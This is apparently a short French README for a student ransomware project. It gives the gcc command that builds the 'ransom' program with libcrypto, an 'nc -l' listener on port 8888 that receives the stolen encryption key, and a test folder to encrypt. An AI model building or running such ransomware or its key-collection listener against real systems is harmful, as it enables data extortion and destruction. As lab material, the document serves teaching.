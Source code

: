 # Ransomware
Pour compiler le programme: 
gcc -o ransom ransom.c ransomlib.c -lcrypto -lvlc (pour les paquets VLC)

Pour lancer un serveur qui écoute pour récupérer la clé (le numéro de port au choix)
nc -l -v -p 8888 

Le dossier "important" contient une série de dossiers et fichiers sur lesquel vous pouvez tester votre programme. 
